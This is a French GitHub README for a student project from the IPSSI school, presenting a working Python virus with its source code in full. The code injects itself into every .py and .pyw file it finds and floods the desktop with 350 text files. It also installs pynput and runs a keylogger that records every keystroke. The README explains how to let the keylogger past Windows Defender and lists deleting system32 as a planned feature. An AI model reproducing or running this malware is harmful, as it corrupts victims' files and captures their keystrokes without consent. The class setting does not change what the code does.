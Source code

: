 # Virus-Python-IPSSI
<!-- Image centrée -->

<div align="center">

![CAPTURE](https://zupimages.net/up/22/48/4n0h.png)

</div>

<!-- --------------------------- -->

**Virus-Python-IPSSI** a été réalisé dans le cadre pédagogique de l'IPSSI avec un projet sur 1,5 jours. 

>Un virus est un programme informatique malveillant dont l'objectif est de perturber le fonctionnement normal d'un système informatique à l'insu de son propriétaire

# Prérequis
- Visual studio code

- Python3

- Connaissances basique / intermédiaire en Python

Il est recommandé d'exécuter ce programme dans un environnement virtuel, il est possible d'en mettre un en place à l'aide des logiciels suivants : 
- Virtualbox --> Sur une VM Windows / Linux
- VMWare workstation pro --> Sur une VM Windows / Linux
- ...

# Description du projet

### Architecture du projet 

Le projet repose sur 1 fichiers Python, 1 fichier de test en .py : 

- ```virus.py``` --> Qui contient le code du virus

- ```test.py``` --> Qui est vide, il sera remplis par le code injécté du virus

### Fonctionnement du projet

Le projet déroule en plusieurs étapes :

1) Exécution du code par la victime

2) Le virus va alors **injecter son code** dans tous les fichiers ```.py``` ou ```.pyw``` qu'il verra.

3) Le virus **va changer le fond d'écran** de la victime

4) Le virus va créer **350** fichiers texte sur le bureau contenant chacun le même texte

5) Le virus va ouvrir plusieurs **CMD**. 

### Mise en réseau
Ce projet se déroule entièrement en **local**.

# Axes d'améliorations du code
Après la phase de réalisation du projet, le professeur nous a demandé une personnalisation du code afin d'améliorer ce dernier.

Pour ce projet, les améliorations suivantes ont été mises en place :

- [x] Spam de fichiers texte sur le bureau de l'utilisateur actif
- [x] Enregistreur de frappes ( Keylogger )
- [ ] Supression du system32

### Mise en place de l'environement de travail

Il est conseillé, pour travailler dans de bonnes conditions, d’ouvrir un **répertoire de travail** ( sur le bureau ou autre ) sur Visual Studio Code

Une fois le répertoire créé, dans visual studio code il faut cliquer sur ```Fichier``` → ```Ouvrir le dossier```

Une fois cette étape réalisée il suffit d'importer les fichiers .py dans le répertoire de travail et l'exécution est désormait possible

# Explications sur le code

## Mise en place des délimiteurs

Au tout début du fichier virus.py, il faut déclarer les commentaires suivants, ils serviront de délimiteur pour la partie *auto-réplication* et *infection des fichiers* expliqués plus bas 

**SENSIBLE À LA CASSE**

```python
# DebutVirus

#Code a injécter

# FinVirus
 ```

## Auto-réplication

La première partie du code concerne l'auto-réplication de ce dernier.

```python
#Le virus charge son propre code
virus_code = []
with open(sys.argv[0], 'r') as f:
    lines = f.readlines()

# Permet de vérifier le code du virus "# DebutVirus" et "# FinVirus\n" servent de délimiteurs
EstInfecte = False
for line in lines:
    if line == "# DebutVirus":
        EstInfecte = True
    if not EstInfecte:
        virus_code.append(line)
    if line == "# FinVirus\n":
        break
```

## Infection des fichiers

Cette seconde partie du code permet de détecter et d'injecter le code préparé en amont

```python
#----------Infection de fichiers----------

# Détection des fichiers .py et .pyw
seek_Python_Files = glob.glob('*.py') + glob.glob('*.pyw')

for file in seek_Python_Files:
    with open(file, 'r') as f:
        file_code = f.readlines()
    
    corrompu = False
    #Si il y a # DebutVirus\n au début = NE PAS injecter le code
    for line in file_code:
        if line == "# DebutVirus\n":
            corrompu = True
            break
    
    #Si il n'y a pas # DebutVirus\n au début = injecter le code
    if not corrompu:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)
        
        with open(file, 'w') as f:
            f.writelines(final_code)

print("")
print("Infection des fichiers en cours ...")
print("")

#----------------------------------------
```

## Spam des fichiers textes sur le bureau

La partie suivante du code va spammer le bureau de l'utilisateur actif en écrivant 350 fichiers texte contenant eux même du texte

```python
#----------SPAM fichiers bureau----------

#Aller sur le bureau de l'utilisateur actuel
path = str(os.path.join(os.environ['USERPROFILE'], "Desktop"))

print("INFECTION DU BUREAU EN COURS...")

#Création de 350 fichiers texte 
for x in range(350):
    file = open(path+"\INFECTED-IPSSI-%d.txt" % x, "w")
    file.write("Votre PC à été infécté par un étudiant de l'IPSSI")
    file.close()

#----------------------------------------
```
## Keylogger

Cette dernière partie du code va ouvrir un keylogger qui enregistrera **TOUTES** les frappes de la victime, ce dernier est très simplifié pour ne pas faire un projet dédié keylogger au sein du fichier, il est cependant tout à fait possible ( et simple ) d'implémenter un keylogger non détécté


Il est donc détécté par Windows defender, afin de le tester il suffit de cliquer sur " autoriser sur l'appareil " dans Windows Defender puis " Intervenir "

```python
#----------------KEYLOGGER---------------

# Un simple keylogger qui est détécté par Windows ( afin d'éviter un immense code dédié )
# Il est tout à fait possible ( et simple ) d'implémenter un keylogger non détécté

#Installation du module pynput
os.system('python -m pip install pynput')

from pynput.keyboard import Key, Listener
import logging
 
 #Enregistrement des frappes de l'utilisateurs dans un fichier local keylog.txt
logging.basicConfig(filename=("keylog.txt"), level=logging.DEBUG, format=" %(asctime)s - %(message)s")
 
def on_press(key):
    logging.info(str(key))
 
with Listener(on_press=on_press) as listener :
    listener.join()
```
